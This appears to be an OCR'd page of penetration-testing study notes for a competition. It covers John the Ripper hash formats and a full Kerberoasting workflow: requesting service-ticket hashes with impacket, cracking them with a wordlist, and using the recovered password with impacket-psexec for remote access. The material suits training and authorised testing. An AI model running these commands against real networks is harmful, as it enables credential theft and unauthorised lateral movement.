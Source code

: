 **Always run after cracking to see results**

---

## Hash Type Detection & Specification

### Let John Auto-Detect (Usually Works)

```bash
john hashes.txt
# John identifies hash type automatically
```

---

### Manually Specify Format (Faster, More Accurate)

```bash
# List all supported formats
john --list=formats

# Common formats for CPTC:
john --format=NT hashes.txt           # NTLM (Windows)
john --format=raw-md5 hashes.txt      # MD5
john --format=raw-sha1 hashes.txt     # SHA1
john --format=raw-sha256 hashes.txt   # SHA256
john --format=bcrypt hashes.txt       # bcrypt
john --format=krb5tgs hashes.txt      # Kerberos TGS (Kerberoasting)
john --format=krb5asrep hashes.txt    # Kerberos AS-REP roasting
john --format=netntlmv2 hashes.txt    # NTLMv2
```

**Why specify format:**
- Faster (skips detection)
- More accurate (avoids misdetection)

---

## CPTC Workflows by Scenario

### Scenario 1: Kerberoasting (Most Common)

**You have:** Kerberos TGS hashes from GetUserSPNs.py

```bash
# 1. Get hashes
impacket-GetUserSPNs -request -dc-ip 10.10.10.10 'CORP/user:pass' -outputfile spn-hashes.txt

# Output in spn-hashes.txt:
# $krb5tgs$23$*sqlservice$CORP.LOCAL$MSSQLSvc/SQL01*$abc123...

# 2. Crack with John
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt spn-hashes.txt

# 3. Check results
john --show --format=krb5tgs spn-hashes.txt

# Output:
# $krb5tgs$23$*sqlservice$...:SQLPass123!
# 1 password hash cracked, 0 left

# 4. Use cracked password
impacket-psexec 'CORP/sqlservice:SQLPass123!@SQL-SERVER'
```
